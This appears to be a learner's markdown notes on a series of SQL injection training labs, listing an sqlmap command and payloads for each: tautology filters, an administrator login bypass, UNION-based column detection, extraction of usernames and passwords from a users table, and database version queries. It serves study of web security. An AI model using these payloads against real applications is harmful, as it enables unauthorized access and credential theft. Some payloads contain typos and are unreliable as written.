


## Use sql map
1. Save request to file 
2. Command sqlmap
```sql
sqlmap -r file.txt -parameter --risk 3 --level 5
```



## 1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Inject point
```sql
		Input ' or 1 = 1-- to domain/filter?category=  >> done
```	


## 2.Lab: SQL injection vulnerability allowing login bypass
```sql
Bypass login >> username ' or 1 = 1 -- (# if mysql) >> administrator' or 1 = 1 -- >> done
```
## 3.Lab: SQL injection UNION attack, determining the number of columns returned by the query
```sql
Union attack >> ' UNION SELECT NULL-- >> determine colum (Null = 1,Null,Null =2)Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL,NULL-- >> code 200 >> 3 colum >> done
```		
## 4.Lab: SQL injection UNION attack, finding a column containing text	
		detect data type
```sql
' UNION SELECT '1',NULL,NULL-- >>code 200 >> colum 1
' UNION SELECT '1,'a',NULL-- >>code 500 >> wrong
' UNION SELECT '1','1',NULL-- >> code 200>> colum 1,2
...
' UNION SELECT '1','1','1'NULL-- >> code 200>> colum 1,2,3 >> done
```
## 5.Lab: SQL injection UNION attack, retrieving data from other tables
```sql
The database contains a different table called users, with columns called username and password 
>> select username,password from users
Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 200 >> 2 colum
>> 'union select username,password from users--
```		
## 6.Lab: SQL injection UNION attack, retrieving multiple values in a single column
```sql
The database contains a different table called users, with columns called username and password 
>> select username,password from users
Detect number of colum
' UNION SELECT NULL-- >> code 500 >> wrong
' UNION SELECT NULL,NULL-- >> code 200 >> 2 colum
try  >> 'union select username,password from users-- >> wrong
If multiple values within a single column
>> try ' UNION SELECT username || '~' || password FROM users-- >> done
```		
## 7.Lab: SQL injection attack, querying the database type and version on Oracle
```sql
Oracle 	SELECT banner FROM v$ version
	SELECT version FROM v$instance
		Microsoft 	SELECT @@version
		PostgreSQL 	SELECT version()
		MySQL 	SELECT @@version
	
>>SELECT banner FROM v$version 
		detect number of colum >> oracle>> add from dual >> detect data type
>> ' UNION SELECT Banner,NULL from v$version-- >> done
```		
## 8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
```sql
>>detect number of colum >>' UNION SELECT NULL,NULL#(use # instead --)>> 2 colum
>>' UNION SELECT @@version,NULL# >> done
```